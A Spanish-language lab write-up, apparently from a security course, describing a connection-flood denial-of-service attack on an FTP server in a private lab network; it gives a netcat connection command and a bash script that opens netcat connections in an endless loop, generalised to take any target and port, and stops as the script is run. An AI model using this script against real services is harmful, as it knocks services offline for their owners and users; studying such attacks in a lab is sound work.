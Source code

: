 # Connection flood

Los servicios orientados a conexión (ej: ftp, http, smtp, …) tienen un límite de conexiones
simultáneas soportadas, que al ser alcanzado rechaza conexiones nuevas. Por eso, si se consigue que el atacante posea todas las conexiones se puede anular el servicio.

## Conexión al servidor FTP

Para conectarse al servidor ftp de una máquina hay que conocer dos cosas, la dirección IP de la máquina y el puerto en el que opera el servidor. El primer dato será el mismo que el del anterior ataque 192.168.145.128, mientras que el puerto podemos repetir el paso de la práctica de escaneo de puertos para saber que el puerto 21 es el que tiene un servidor ftp detrás.

Para realizar una conexión simple con netcat deberemos usar el siguiente comando:

```bash
nc 192.168.145.128 21
```

## Ataque

### Creación del script

Para conseguir un ataque de denegación de servicio habría que lanzar muchas veces el comando de netcat, o realizar un pequeño script que realice este proceso por nosotros.

Un script en bash para realizar dicha función tendría la siguiente estructura:

```bash
#!/bin/bash
while true; do
nc 192.168.145.128 21 > /dev/null &
done
```

Sin embargo, el script anterior limita el ataque a una sola víctima, para esto bash permite pasar parámetros por consola al script que se va a ejecutar, de forma que un script genérico sería el siguiente:

```bash
#!/bin/bash
while true; do
nc $1 $2 > /dev/null &
done
```

Una vez teniendo el script creado solo faltaría darle permisos de ejecución:

```bash
chmod 755 DoS.sh
```

### Ejecución del script

Una vez se ejecuta el script se empieza a saturar el servidor ftp:
